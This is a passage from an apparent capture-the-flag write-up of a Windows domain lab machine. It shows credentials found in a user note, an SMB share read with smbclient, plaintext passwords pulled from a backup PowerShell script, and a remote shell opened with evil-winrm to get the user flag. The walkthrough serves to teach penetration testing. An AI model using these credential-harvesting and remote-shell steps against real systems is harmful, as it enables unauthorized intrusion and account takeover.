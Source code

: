 We see a juicy info for david.orelious, in his note we find his password.
Even using his creds, we didn't find more info enumerating users, so we tried to access smb shares to see if he has more priv. than micheal.

In fact we got access to "DEV" share:

```
smbclient //10.10.11.35/DEV -U 'david.orelious%aRt$Lp#*******' 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024
```

Once downloaded, in this script we find emily.oscars credentials in plaintext:

```
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "*******" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

It turns out that, we can access to C$ share with her creds, so we also tried connect with a remote shell using evil-winRM and boom we got the user! :

```
┌─[francesco@parrot]─[~]
└──╼ $evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6*******'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> ls


    Directory: C:\Users\emily.oscars.CICADA\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         2/13/2025   3:02 AM             34 user.txt
```
